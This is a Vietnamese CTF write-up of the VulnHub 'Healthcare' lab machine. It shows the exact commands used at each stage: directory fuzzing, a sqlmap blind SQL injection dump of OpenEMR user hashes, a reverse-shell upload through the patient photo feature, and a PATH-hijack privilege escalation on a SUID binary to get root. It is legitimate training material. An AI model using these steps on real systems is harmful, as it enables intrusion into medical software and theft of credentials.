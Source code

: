 ```yaml
---
title: Healthcare Writeup - VulnHub
date: "2023-07-28 01:11:07"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking

pin: true
---
```


Download [Healthcare VulnHub](https://www.vulnhub.com/entry/healthcare-1,522/){:target="\_blank"}.

## Enumeration

![Scan Ports](/posts/Healthcare/scan-ports.PNG)
_Scan Ports and Services_

```shell
gobuster dir -u http://10.0.2.9/ -w /usr/share/wordlists/Seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30
```

![Gobuster](/posts/Healthcare/gobuster.png)
_Directory fuzzing_

![Openemr login page](/posts/Healthcare/openemr-login.PNG)
_Openemr login page_

## Exploitation

Đã biết ứng dụng đang chạy Openemr - một phần mềm mã nguồn mở, quản lý hành nghề y tế gì đó. Đặc biệt hơn, Openemr v4.1.0 chứa lỗ hổng unauthenticated blind SQL injection, có mã [CVE-2012-2115](https://www.cvedetails.com/cve/CVE-2012-2115/){:target="\_blank"}. Sau khi nhấn login, thông tin sẽ được xác thực qua `validateUser.php`. Nếu user tồn tại thì truy vấn sẽ luôn trả về ít nhất 1 hàng. Đồng nghĩa với việc ta có thể chèn payload SQL injection tại đây và thực hiện `Blind SQL Injection`.

Dùng `sqlmap` để khai thác:

```shell
┌──(kali㉿kali)-[~]
└─$ sqlmap -u '10.0.2.9/openemr/interface/login/validateUser.php?u=1' -D openemr -T users -C username,password --dump --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.6#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


.................

Database: openemr
Table: users
[2 entries]
+----------+----------------------------------------------------+
| username | password                                           |
+----------+----------------------------------------------------+
| admin    | 2de89a0a37f4a62dc4fa04f2637efcbba098ab44           |
| medical  | ab24aed5a7c4ad45615cd7e0da816eea39e4895d (medical) |
+----------+----------------------------------------------------+

```

Dump được 2 entries như trên, do tools đã crackhash được pasword của user `medical` nên ta dùng tài khoản này để login vô openemr luôn.

![Openemr Interface](/posts/Healthcare/openemr-interface.PNG)
_Giao diện sau khi login Openemr_

## Remote Code Execution

Sau khi đã đặt chân vào trang quản trị của Openemr v4.1.0, chúng ta có thể khai thác vuln mới có mã [CVE-2011-5161](https://www.cvedetails.com/cve/CVE-2011-5161/){:target="\_blank"}, cho phép người dùng upload file bất kì và không có bất cứ validation nào. Điều này giúp chúng ta dễ dàng upload và chạy reverse shell.

Tìm thủ công nơi có thể upload file, khả năng nhất là nơi update thông tin của bệnh nhân/khách hàng. Tiến hành truy cập đến `Patient/Client`>`New/Search`.

![Create New Patient](/posts/Healthcare/create-new-patient.PNG)
_Tạo mới 1 Patient_

Sau khi tạo xong, search và click vào Patient vừa tạo. Sau đó di chuyển tới `Documents` > `Patient Information` > `Patient Photograph`

![Patient A](/posts/Healthcare/a.PNG)

![Upload Page](/posts/Healthcare/upload-page.PNG)

Yah chính nó! Upload reverse shell php lên, chạy file và tạo 1 port listener tại máy local:

![Upload Revshell](/posts/Healthcare/upload-revshell.PNG)

![RCE](/posts/Healthcare/rce.PNG)
_RCE thành công!_

## Privilege Escalation

```shell
find / -perm -u=s 2>/dev/null
```

```
...
...
/usr/bin/healthcheck
...
...
```

Tiến hành tìm kiếm file SUID thì phát hiện file nhị phân trông lạ lạ này. Kiểm tra tệp này 1 chút:

```shell
sh-4.1$ ls -la /usr/bin/healthcheck
-rwsr-sr-x 1 root root 5813 Jul 29  2020 /usr/bin/healthcheck
```

File nhị phân này chạy dưới quyền root. Tất cả chỉ là thực hiện kiểm tra, Scan hệ thống, ổ đĩa,...

```shell
sh-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

Hơn nữa, họ không chỉ định đường dẫn tuyệt đối cho các câu lệnh trong này => Ta có thể set PATH cho directory hiện tại và tạo file thực thi để spawn shell đồng thời trùng với 1 command nằm trong `healthcheck`. Thay vì chạy file bin trong PATH mặc định thì câu lệnh đó được chạy trong môi trường mà ta set cho PATH, tức file spawn shell của ta sẽ được gọi.

Trong file `healthcheck` có 1 vài câu lệnh, ta có thể chọn 1 lệnh bất kì trong số đó.

```shell
sh-4.1$ cd /tmp
sh-4.1$ export PATH=$(pwd):$PATH
sh-4.1$ echo "/bin/bash" > clear
```

```shell
sh-4.1$ healthcheck
TERM environment variable not set.
System Health Check

Scanning System
eth2      Link encap:Ethernet  HWaddr 08:00:27:54:37:D4
          inet addr:10.0.2.9  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe54:37d4/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1481565 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1576879 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:219434428 (209.2 MiB)  TX bytes:1884801187 (1.7 GiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:160 errors:0 dropped:0 overruns:0 frame:0
          TX packets:160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:17440 (17.0 KiB)  TX bytes:17440 (17.0 KiB)


id
uid=0(root) gid=0(root) groups=0(root),416(apache)
```

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
[root@localhost tmp]# cd /
[root@localhost root]# ls
Desktop/    drakx/        healthcheck.c  sudo.rpm
Documents/  healthcheck*  root.txt       tmp/
[root@localhost root]# cat root.txt
Flag day ne: QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk=
[root@localhost root]# echo "QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk="| base64 -d
BreakTeam_Flag_XNXX.COM_Ahihi
```

